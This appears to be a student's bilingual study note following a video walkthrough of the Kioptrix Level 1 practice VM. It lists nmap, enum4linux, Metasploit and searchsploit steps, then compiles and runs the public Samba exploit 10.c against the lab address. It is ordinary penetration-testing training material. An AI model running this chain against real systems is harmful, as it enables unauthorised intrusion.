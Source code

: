 # KIOPTRIX lv1 # 
The video starts with this... of course previously we must make a folder and work in a folder where document our progress and discovers
sudo fping -a -g 192.168.100.0/24
![[fping.png]]

```
sudo nmap -sS -n -Pn -T4 -p-  192.168.100.32 -oN kioptrixScan
```
and then the guy did another scan 
```
sudo nmap -sV -sC -n -Pn -T4 -p 22,80,111,139,443,32768
```
(he doesnt put the sC) comand 

-T4- is for the speed

THE FIRST AND THE SECOND SCANN ARE HERE
/Documentos/Workspace/Virtual machines/pentesting/KIOPTRIX/kioptrixScan
/Documentos/Workspace/Virtual machines/pentesting/KIOPTRIX/kioptrixScan2.0

*The port 80 is open so we are going to investigate in the browser and then we will see what can tell us the apache server*

The guy used #dirbuster but it doesnt help him on the apache server

Now he is going to use #dirbuster and he will focus on the port runng smb, he need to se the version that is runing and the comand that he will use is;
enum4linux -a 192.168.100.32
*THERE IS NO DATA ABOUT smb server on the scan*

We are going to try with #metasploit

sudo msfdb start && sudo msfconsole

search type: auxiliary smb version
![[Captura de pantalla_2023-07-16_01-44-06.png]]
we are going to put "use 3" and then "show options"
set RHOST *192.168.100.32*
set *THREADS 10* (supuestamente va mas rapido pero no se que sera)
and then we use the comand *"run"*

The version is SMB 2.2.1a and we are going to search any vulnerability 
(el pibe dice que va a encontrar una vulnerabilidad contra ese protocolo, pero no es el protocolo es e "daemon"(sera la version ????)) 

lets find something with searchsploit smb 2.2.1a
![[Captura de pantalla_2023-07-16_01-59-18.png]]
This is what we have, we are going to use that that say 2.2.8

**First we are going to put us on the foler of that we are working on and then we are going to search the exploit with** 

*locate multiple/remote/10.c*

Now we are going to copy the directory to the folder that we are on

*cp /usr/share/exploitdb/exploits/multiple/remote/10.c .*

**EL TIPO DICE QUE EN LOS EXPLOIT GENERALMENTE HAY UNA OPCION PARA "COMPILAR EL PROGRAMA, PERO EN ESTE CASO NO HABIA NINGUNA, ENTONCES SIMPLEMENTE PUSO EL COMANDO 
*gcc 10.c -o samba"* (para compilar el programa con el nombre de samba)
luego obtuvo esto **

![[2 1.png]]
Now we launch it without specifications and we get this

![[3 1.png]]

Now, we are going to launch it with the next comands

./samba -b 0 -v 192.168.100.32

![[and it works.png]]

works!


